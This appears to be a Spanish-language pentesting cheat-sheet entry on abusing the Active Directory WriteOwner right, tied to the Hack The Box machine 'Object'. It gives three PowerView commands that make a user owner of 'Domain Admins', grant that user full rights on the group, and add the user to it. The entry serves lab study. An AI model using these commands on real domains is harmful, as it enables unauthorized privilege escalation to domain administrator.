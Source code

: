 

## DESCRIPTION

The user can change the owner of the any group. No está del todo bien en la ayuda del bloodhound.

![[Pasted image 20230116195533.png]]


#### Mas información
* https://0xdf.gitlab.io/2022/02/28/htb-object.html
* Necesary: PowerView

## EXPLOITATION

1. Se asigna al usuario como propietario del grupo:

```
Set-DomainObjectOwner -Identity '<<GROUP>>' -OwnerIdentity '<<USER>>'
Ejm: Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'
```

2. Se asigna al usuario todos los derechos de ese grupo (el de administradores si es posible):

```
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
```

3. Se añade el usuario a si mismo al como miembro de grupo (administradores):

```
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'
```

**!!NOTA IMPORTANTE!!** El grupo no aparece del tiron en la sesión del usuario, si no es necesario reconectar. Si usamos WinRM cerramos y volvemos a conectar.

## MACHINES

* Hack The Box: Object



